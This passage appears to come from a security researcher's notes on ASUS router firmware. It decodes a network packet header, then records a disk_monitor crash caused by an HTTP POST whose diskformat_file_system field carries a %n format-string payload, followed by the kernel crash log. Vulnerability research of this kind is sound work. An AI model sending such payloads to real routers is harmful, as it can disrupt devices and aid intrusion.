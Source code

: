 ```C
	NET_CMD_ID_GETINFO_MANU,    //  52              0x34
	NET_CMD_ID_GETINFO_EX2,     //  53              0x35
	NET_CMD_ID_FIND_CAP,     //  54              0x36
	NET_CMD_ID_MAXIMUM
};
```

So, with the above known we can figure this packet header pretty easily:
`0C` == 12 == `NET_SERVICE_ID_IBOX_INFO`
`15` == 21 == `NET_PACKET_TYPE_CMD`
`1F` == 31 == `NET_CMD_ID_GETINFO`

Next, created a directory of 512 byte hex files with different headers

Sadly there's just not a lot of functionality in this binary :/


## disk_monitor

Found a crash in disk_monitor:

```
POST /start_apply.htm HTTP/1.1
Host: 192.168.1.2
Content-Length: 186
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=; clickedItem_tab=0; asus_token=E1pZ1zgYygoSNU8TFgr7XyZReQG5Tu8
Connection: close

next_page=%2Fdevice-map%2Fdisk_format.asp&action_mode=apply&action_script=start_diskformat&action_wait=1&diskformat_file_system=%25n&diskformat_label=test&disk_name=test&disk_system=tfat
```

`%25n` in diskformat_file_system

Syslog:

```
Mar 14 16:23:12 rc_service: httpd 1438:notify_rc start_diskformat
Mar 14 16:23:12 disk_monitor: Format manually...
Mar 14 16:23:12 disk monitor: start...
Mar 14 16:23:12 iTunes: daemon is stoped
Mar 14 16:23:12 FTP Server: daemon is stopped
Mar 14 16:23:12 Samba Server: smb daemon is stopped
Mar 14 16:23:16 Timemachine: daemon is stoped
Mar 14 16:23:16 disk monitor: unmount partition
Mar 14 16:23:16 disk monitor: format partition
Mar 14 16:23:16 avahi-daemon[3477]: WARNING: No NSS support for mDNS detected, consider installing nss-mdns!
Mar 14 16:23:16 kernel: CPU: 2 PID: 1481 Comm: disk_monitor Tainted: P           O    4.1.51 #4
Mar 14 16:23:16 kernel: Hardware name: Broadcom-v8A (DT)
Mar 14 16:23:16 kernel: task: ffffffc02ff3ebc0 ti: ffffffc02b9fc000 task.ti: ffffffc02b9fc000
Mar 14 16:23:16 kernel: PC is at 0xf6cf09c8
Mar 14 16:23:16 kernel: LR is at 0xf6d26248
Mar 14 16:23:16 kernel: pc : [<00000000f6cf09c8>] lr : [<00000000f6d26248>] pstate: 60070010
Mar 14 16:23:16 kernel: sp : 00000000ffa2c6d0
Mar 14 16:23:16 kernel: x12: 00000000002ebdf4 
Mar 14 16:23:16 kernel: x11: 00000000ffa2cbc4 x10: 0000000000000000 
Mar 14 16:23:16 kernel: x9 : 00000000f6dea7a8 x8 : 00000000f6dec000 
Mar 14 16:23:16 kernel: x7 : 00000000f765f860 x6 : 0000000000000024 
Mar 14 16:23:16 kernel: x5 : 00000000ffa2cc8c x4 : 00000000002e86e8 
Mar 14 16:23:16 kernel: x3 : 0000000000000001 x2 : 00000000ffa2cc84 
Mar 14 16:23:16 kernel: x1 : 00000000f6cefb34 x0 : 0000000000000024 
```